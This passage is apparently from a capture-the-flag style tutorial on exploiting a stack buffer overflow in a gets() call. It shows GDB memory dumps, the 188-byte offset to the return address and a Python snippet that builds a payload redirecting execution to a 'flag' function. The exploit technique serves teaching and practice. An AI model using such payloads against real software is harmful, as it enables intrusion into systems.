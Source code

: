 Right before `gets` is called, the current stack frame is 200 bytes in size. The
buffer written to by `gets` starts at `0xffffcd20`, sixteen bytes from the start
of the stack frame, `0xffffcd10`. I've also highlighted the return address we
want to overwrite, `0x08049318`, which sits at address `0xffffcddc`. If we want
to overwrite this address, we'll need to provide a string that's at least 188
bytes long (the difference between `0xffffcd20` and `0xffffcddc`). Let's
continue and see what happens when we do this.

```shell-session
(gdb) ni
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0x08049296 in vuln ()
(gdb) x/60xw $esp
0xffffcd10:    0xffffcd20    0xf7f9bd67    0x00000001    0x08049281
0xffffcd20:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffcd30:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffcd40:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffcd50:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffcd60:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffcd70:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffcd80:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffcd90:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffcda0:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffcdb0:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffcdc0:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffcdd0:    0x41414141    0x41414141    0x41414141    0x41414141
0xffffcde0:    0x00000000    0xffffcea4    0xffffceac    0x000003e8
0xffffcdf0:    0xffffce10    0x00000000    0x00000000    0xf7dcaed5
(gdb)
```

Success! The return address has been overwritten with `0x41414141`, the ASCII
representation of "AAAA". Immediately following these four bytes, the word at
`0xffffcde0` has changed from `0x00000001` to `0x00000000`, since the null byte
terminating the input string has been copied to this address.

The next challenge is constructing a payload including the address we want the
CPU to execute in place of the return address. Once again, we can use GDB to get
this info:

```shell-session
(gdb) p flag
$6 = {<text variable, no debug info>} 0x80491e2 <flag>
(gdb)
```

So our payload needs to be terminated with the bytes `0x08`, `0x04`, `0x91` and
`0xe2`. Because x86 CPUs use little-endian
[byte order](https://en.wikipedia.org/wiki/Endianness), our payload needs to
provide these in the opposite order to how they appear here. We can use Python
to help us construct this payload:

```python
payload = b"A" * 188 + b"\xe2\x91\x04\x08"
with open("payload.bin", "wb") as f:
    f.write(payload)
```
